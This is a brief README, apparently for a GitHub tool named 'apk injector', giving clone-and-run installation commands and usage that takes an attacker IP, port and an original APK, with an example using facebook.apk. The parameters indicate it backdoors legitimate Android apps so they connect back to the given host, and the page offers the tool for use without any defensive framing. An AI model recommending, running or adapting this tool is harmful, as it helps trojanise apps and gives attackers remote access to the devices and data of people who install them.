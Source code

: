 # apk injector
# installation:
      git clone https://github.com/sirai-ayoub/apk_injector.git
      chmod 777 apk_injector/x-apk.py && apk_injector/x-apk.py

# Usage:
      apk_injector/x-apk.py -h=<ip or host> -p=<port> -x=<original apk>

# Example:
      apk_injector/x-apk.py -h=192.168.1.5 -p=443 -x=facebook.apk

# screenshot:
![screenshot from 2018-08-31 20-12-28](https://user-images.githubusercontent.com/42876999/44940039-f2299d00-ad81-11e8-8d09-607862a74cfc.png)
